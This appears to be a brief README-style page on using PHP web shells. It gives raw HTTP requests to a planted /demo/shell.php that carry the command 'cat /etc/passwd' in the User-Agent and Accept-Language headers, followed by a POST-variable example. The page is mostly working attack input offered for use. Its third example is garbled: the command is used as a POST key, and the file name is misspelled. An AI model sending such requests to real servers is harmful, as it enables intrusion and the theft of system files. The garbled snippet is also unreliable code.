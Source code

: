 
# PHP shells


**(1) HTTP_USER_AGENT_SHELL**
  
**SET SHELL COMMANDS IN USER-AGENT HEADER**
  
GET /demo/shell.php HTTP/1.1
Host: 192.168.5.25
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Accept: text/html,application/xhtml+xml
Upgrade-Insecure-Requests: 1
**User-Agent: cat /etc/passwd**
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-GB,en-U 

****

**(2) HTTP_ACCEPT_LANGUAGE_SHELL**
 
**SET SHELL COMMANDS IN ACCEPT_LANGUAGE HEADER**

GET /demo/shell.php HTTP/1.1
Host: 192.168.5.25
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.112.                        
Accept-Encoding: gzip.                      
**Accept-Language: cat /etc/passwd**

****
  

**(3) POST WITH VARIABLE**
  
**JUST ADD YOUR COMMAND IN VARIABLE B**
  
$b = $_POST['cat /etc/password'];
